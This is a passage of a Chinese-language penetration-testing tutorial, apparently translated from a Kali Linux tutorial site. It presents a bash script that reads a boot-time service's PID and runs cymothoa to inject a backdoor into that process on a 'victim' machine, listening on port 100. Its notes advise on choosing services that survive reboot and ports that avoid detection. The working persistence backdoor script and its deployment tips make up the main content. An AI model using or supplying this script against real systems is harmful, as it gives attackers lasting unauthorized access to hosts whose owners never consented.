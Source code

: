 这是最难的部分。如果你有任何关于 shell 脚本的想法，你可以理解。或者试着学习一些。反正剧本很简单。它首先提取服务或守护进程的 pid。检查它是否是一个数字。

有时一个进程会有子进程。因此将有不止一个可用的 PID。在这种情况下，有必要从 pid 列表中单独提取一个 PID。然后脚本将 pid 分配给一个变量(这里说 q)。然后使用变量 q 的值作为“-p”选项的值来执行 cymothoa。这是剧本。

```
#!/bin/bash
p=`cat /var/run/crond.pid`
#extracts the pid. Here replace the last with a process of your desire.
#example: p=`cat /var/run/apache2.pid`.
#Remember the chracter before cat & after pid is a backtick & not an inverted comma.
if [ "$p" -eq "$p" ] 2>/dev/null; then #checks whether it's a number or not.
q=$p
else
q=`(echo $p | awk '{print $2}')` #takes the next row which will be a number. Here also it's a backtick
fi
echo $q
exec /cymothoa-1-alpha/cymothoa -p $q -s 1 -y 100 # make sure to give absolute path of cymothoa in the victim.
exit
```

需要注意的事项:

*   将命令的输出分配给变量时，会使用反勾号。
*   每当需要时，总是给出绝对和完整的路径。
*   你可以选择任何服务。像 apache2/crond/vsftpd/mysqld 等可能在引导时启动的服务是合适的。
*   Pid 位置是标准的 unix 系统是“/var/run/process.pid”。
*   确保监听端口(-y 选项)不会被其他服务使用。如果是 web 服务器，给端口 80 将是一个坏主意。

将脚本复制到 kali linux 机器中的一个文件中。相应地编辑并保存它。

[![cymothoa](img/ed491fd783c0536e7edfbdd516901ed9.png)](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa6/)
